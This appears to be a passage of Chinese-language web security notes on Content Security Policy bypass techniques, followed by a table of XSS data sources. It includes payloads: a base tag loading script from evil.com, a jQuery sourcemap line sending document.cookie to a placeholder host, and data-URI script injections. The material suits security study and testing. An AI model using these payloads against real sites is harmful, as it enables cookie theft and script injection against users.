   >
  > 占用资源很多的页面；
  >
  > 打开了chrome developer tools开发工具；

#### MIME Sniff
举例来说，csp禁止跨站读取脚本，但是可以跨站读img，那么传一个含有脚本的img，再``<script href='http://xxx.com/xx.jpg'>``，这里csp认为是一个img，绕过了检查，如果网站没有回正确的mime type，浏览器会进行猜测，就可能加载该img作为脚本

#### 302跳转
对于302跳转绕过CSP而言，实际上有以下几点限制：
- 跳板必须在允许的域内。
- 要加载的文件的host部分必须跟允许的域的host部分一致。

#### iframe
当可以执行代码时，可以创建一个源为 css js 等静态文件的frame，在配置不当时，该frame并不存在csp，则在该frame下再次创建frame，达到bypass的目的。同理，使用 `../../../ /%2e%2e%2f` 等可能触发服务器报错的链接也可以到达相应的目的。

#### base-uri

当script-src为nonce或无限制，且base-uri无限制时，可通过 base 标签修改根URL来bypass，如下加载了http://evil.com/main.js
```javascript
<base href="http://evil.com/">
<script nonce="correct value" src="/main.js"></script>
```

#### 其他
- location 绕过
- 可上传SVG时，通过恶意SVG绕过同源站点
- 存在CRLF漏洞且可控点在CSP上方时，可以注入HTTP响应中影响CSP解析
- CND Bypass，如果网站信任了某个CDN, 那么可利用相应CDN的静态资源bypass
- Angular versions `<1.5.9 >=1.5.0`，存在漏洞 Git Pull Request
- jQuery sourcemap：
```
document.write(`<script>
//@        sourceMappingURL=http://xxxx/`+document.cookie+`<\/script>`);``
```
- a标签的ping属性
- For FireFox：
  > `<META HTTP-EQUIV="refresh" CONTENT="0; url=data:text/html;base64,PHNjcmlwdD5hbGVydCgnSWhhdmVZb3VOb3cnKTs8L3NjcmlwdD4=">`
- `<link rel="import" />`
- `<meta http-equiv="refresh" content="0; url=http://...." />`
- 仅限制 script-src 时：
  > `<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>`


## XSS数据源
| 途径          | 说明                                                                                                                                      |
| ------------- | ----------------------------------------------------------------------------------------------------------------------------------------- |
| URL           | `location` `location.href` `location.pathname` `location.search` `location.hash` `document.URL` `document.documentURI` `document.baseURI` |
| Navigation    | `window.name` `document.referrer`                                                                                                         |
| Communication | `Ajax` `Fetch` `WebSocket` `PostMessage`                                                                                                  |
| Storage       | `Cookie` `LocalStorage` `SessionStorage`                                                                                                  |
